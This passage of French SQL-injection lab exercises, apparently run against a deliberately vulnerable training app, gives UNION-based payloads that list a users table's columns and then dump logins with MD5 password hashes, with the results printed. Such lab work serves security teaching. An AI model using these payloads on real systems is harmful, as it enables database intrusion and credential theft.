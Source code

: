 ## Exercice 11 – (Injection SQL)
*Objectif : Trouver les colonnes de la table « users »*
```sql
' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name="users";-- -
```
- Quelle table contient le nom de toutes les colonnes connues de MySQL ?
	- **information_schema.column**
**Résultat**
```
ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name="users";-- - 
First name: users 
Surname: user_id 
ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name="users";-- - 
First name: users 
Surname: first_name 
ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name="users";-- - 
First name: users 
Surname: last_name 
ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name="users";-- - 
First name: users 
Surname: user 
ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name="users";-- - 
First name: users 
Surname: password 
ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name="users";-- - 
First name: users 
Surname: avatar 
ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name="users";-- - 
First name: users 
Surname: last_login 
ID: ' UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_name="users";-- - 
First name: users 
Surname: failed_login
```

## Exercice 12 – (Injection SQL)
*Objectif : Vous disposez de toutes les informations sur la structure de la table « users ». Il ne reste plus qu’à extraire les couples « login:password ».*
```sql
' UNION SELECT user, password FROM users;-- -
```
**Résultat**
```
ID: ' UNION SELECT user, password FROM users;-- - 
First name: admin 
Surname: 098f6bcd4621d373cade4e832627b4f6 
ID: ' UNION SELECT user, password FROM users;-- - 
First name: gordonb 
Surname: e99a18c428cb38d5f260853678922e03 
ID: ' UNION SELECT user, password FROM users;-- - 
First name: 1337 
Surname: 8d3533d75ae2c3966d7e0d4fcc69216b 
ID: ' UNION SELECT user, password FROM users;-- - 
First name: pablo 
```